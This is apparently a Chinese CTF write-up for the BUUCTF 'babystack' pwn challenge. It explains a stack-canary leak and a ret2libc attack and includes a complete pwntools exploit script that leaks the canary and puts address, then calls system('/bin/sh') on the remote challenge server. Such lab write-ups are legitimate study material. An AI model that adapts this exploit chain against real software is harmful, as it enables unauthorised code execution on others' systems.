 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

- Canary 保护
- 程序控制流
- 64位libc泄露

```shell
bamuwe@bamuwe:~/done/others_babystack$ checksec babystack
[*] '/home/bamuwe/done/others_babystack/babystack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序开启了Canary保护

![image-20240127172338486](../assets/img/old_imgs/image-20240127172338486.png)

1. 程序存在`Canary`保护，所以要先泄露出`Canary`
2. `read`中存在溢出
3. 通过`read`配合`puts`得到`Canary`的值
4. 构造`payload`利用`exit`函数劫持程序流，泄露`libc`
5. 构造`payload`得到`shell`

```python
from pwn import *
from LibcSearcher import LibcSearcher
# context.log_level = 'debug'
# io = gdb.debug('./babystack')
io = remote('node5.buuoj.cn',29522)
elf = ELF('./babystack')
padding = cyclic(136)
pop_rdi_ret = 0x0000000000400a93
main_addr = 0x400908

def cmd(idx):
    io.sendlineafter(b'>>',str(idx))
def leak_canry():
    cmd(1)
    io.sendline(padding)
    cmd(2)
    io.recvuntil('\n')
    canary = u64(io.recv(7).rjust(8, b'\x00'))
    print(hex(canary))
    return canary
def leak_puts(canary):
    cmd(1)
    payload = padding+p64(canary)+p64(0x0)+p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(main_addr)
    io.sendline(payload)
    cmd(3)
    puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    print('puts_addr->',hex(puts_addr))
    return puts_addr
def pwn(puts_addr):
    libc = LibcSearcher('puts',puts_addr)
    lib_offset = puts_addr - libc.dump('puts')
    sys_addr = lib_offset+libc.dump('system')
    bin_sh_addr = lib_offset+libc.dump('str_bin_sh')
    payload = padding+p64(canary)+p64(0x0)+p64(pop_rdi_ret)+p64(bin_sh_addr)+p64(sys_addr)
    cmd(1)
    io.sendline(payload)
    cmd(3)
    io.sendline('cat flag')
    io.interactive()

canary = leak_canry()
puts_addr = leak_puts(canary)
pwn(puts_addr)

```

这里面看佬的wp新学一招，使用`cyclic(lengths)`可以直接得到所需长度的循环字符串

